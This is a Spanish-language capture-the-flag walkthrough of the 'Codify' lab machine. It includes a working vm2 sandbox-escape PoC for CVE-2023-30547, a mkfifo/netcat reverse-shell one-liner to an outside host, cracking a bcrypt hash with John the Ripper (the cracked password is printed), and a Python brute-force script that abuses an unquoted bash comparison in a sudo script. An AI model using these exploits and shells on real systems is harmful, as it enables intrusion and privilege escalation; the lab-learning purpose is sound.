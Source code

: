 
# Resumen

Codify es una máquina Linux que ejecuta un servidor HTTP y aloja una aplicación web desactualizada. Aprovecharemos las vulnerabilidades en esta aplicación para acceder al sistema, donde descubriremos credenciales encriptadas en formato bcrypt. Estas credenciales pueden ser explotadas de manera sencilla utilizando John The Ripper. Una vez que hayamos obtenido acceso al usuario Joshua, investigaremos cómo vulnerar un código en bash que cuenta con permisos sudo pero no está implementado con todas las medidas de seguridad necesarias. Esto nos permitirá elevar nuestros privilegios al nivel de root.
# Reconocimiento

## Puertos

Realizamos un escaneo rápido de puertos y versiones de servicios a la máquina víctima:

```shell
└─$ nmap -p- -sV 10.10.11.239 -T5 -oN nmap.txt -vvv
```

![[Pasted image 20231107175436.png]]
## Web

El puerto 80 tiene un servidor http activo: 

![[Pasted image 20231107175901.png]]

A simple vista hay tres páginas: `/limitations`, `/about`, `/editor`.

El servidor contiene una aplicación web que permite testear código Node JS. Una Reverse Shell sencilla en este lenguaje no funciona por los módulos restringidos: 

![[Pasted image 20231107180512.png]]

La aplicación funciona mediante la libreria vm2 en la versión 3.9.16. 

![[Pasted image 20231107180126.png]]
# Penetración 

## Web

La versión 3.9.16 de la librería vm2 tiene una vulnerabilidad registrada como CVE-2023–30547 (https://nvd.nist.gov/vuln/detail/CVE-2023-30547), que permite escapar de las restricciones del editor. Con ello podemos ejecutar código malicioso y una reverse shell con la que acceder al sistema víctima. 
### Exploit

Haremos uso del siguiente PoC: https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('whoami');
}
`

console.log(vm.run(code));
```

![[Pasted image 20231107181134.png]]

Una vez confirmada la vulnerabilidad, el acceso es ya algo mecánico. Abrimos puerto en escucha: 

```shell
nc -lvp 4444
```

Introducimos una reverse shell con el siguiente comando (https://www.revshells.com/): 

```shell 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.78 4444 >/tmp/f
```



![[Pasted image 20231107181459.png]]

Una vez dentro, vamos a necesitar, por comodidad, una shell con todas sus funciones. Habrá que ejecutar lo siguiente: 

```shell
script /dev/null -c bash
tty
CTRL+Z
stty raw -echo;fg
reset
xterm
export TERM=xterm
```

En `/home` vemos un usuario posiblemente vulnerable: `joshua`
En `/var/www/contact` hay un archivo SQLite con un hash en bcrypt. 

![[Pasted image 20231107182336.png]]

Con John The Ripper se tarda menos de treinta segundos en hacerse cargo de ella: 

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```

`joshua:spongebob1`
# Acceso y Escalada de Privilegios

```shell
ssh joshua@10.10.11.239
```

Aquí está la flag `user.txt`.

Para escalar privilegios vamos a revisar qué puede hacer nuestro usuario Joshua: 

![[Pasted image 20231107182843.png]]

Parece ser que podemos ejecutar un comando con permisos sudo que pregunta por la contraseña root. 

![[Pasted image 20231107183231.png]]

Está programado con ciertas vulnerabilidades de seguridad. Al no estar las variables entre comillas, nos permite realizar que se lean como comandos y no sólo como variables.

El camino fácil es construir un script en python que automatice el trabajo de fuerza bruta. 

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
    for character in all:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

Lo creamos en `/tmp`, le damos permisos de ejecución y nos da la contraseña en cuestión de minutos. 

![[Pasted image 20231107183856.png]]
